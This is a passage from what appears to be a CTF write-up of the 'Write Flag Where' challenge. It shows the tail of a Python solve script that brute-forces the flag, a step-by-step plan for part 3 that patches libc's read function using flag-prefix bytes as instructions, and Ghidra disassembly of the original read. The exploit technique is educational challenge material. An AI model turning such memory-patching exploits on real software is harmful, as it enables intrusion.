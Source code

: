 ```python
    except Exception:
        p.close()
        return False
    p.close()
    return True

def main():
    context.log_level='critical'
    FLAG = "CTF{"
    for l in range(100):
        for c in "_"+string.printable[:-7]:
            print(FLAG+c)
            if attempt(FLAG, c):
                FLAG+=c
                break
        if FLAG[-1] == "}":
            break
    print(FLAG)


if __name__ == "__main__":
    main()
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_solve2_py"
    button-text="Show solve2.py" toggle-text=wfw_solve2_py  %}
	

### Write Flag Where - Part 3

Lastly for part 3, we can't write into the main binary region, including the all the data sections. After looking through the functions in libc that are used, I found that the read function is the most likely function to be hijacked, since the arguments used to call the function is helpful. 

Meanwhile, I also look for some useful instructions we can create using the flag prefix. I notice that 0x43 ('C') is a prefix in x86 assembly, and can be used to nop out instruction with minimal effects on most registers. Another interesting instruction is 0x7b ('{'), which is jnp. This allow use to jmp further down the program. The changes made to the read function is as follow: 

1. Overwrite the second syscall to set rsi from rsp+0x43
2. Overwrite ja after second syscall to jnp to jump downward
3. Overwrite jump direction of the last jmp to jump to write function
4. Overwrite broken instructions with nop so it doesn't segfault
5. Overwrite the first return in the read function to trigger the full exploit.

see `libc_original.asm` for the original libc function (disassembled from ghidra), and `libc_changed.asm` for the final state after all the writes, along with some comments to how the final payload achieved the target.

{% capture wfw_before_asm %}

```text
// ssize_t read(int __fd,void *__buf,size_t __nbytes)
        00214980 f3 0f 1e fa     ENDBR64
        00214984 64 8b 04        MOV        EAX,dword ptr FS:[0x18]
                 25 18 00 
                 00 00
        0021498c 85 c0           TEST       EAX,EAX
        0021498e 75 10           JNZ        LAB_002149a0
        00214990 0f 05           SYSCALL
        00214992 48 3d 00        CMP        RAX,-0x1000
                 f0 ff ff
        00214998 77 56           JA         LAB_002149f0
        0021499a c3              RET
        0021499b 0f              ??         0Fh
```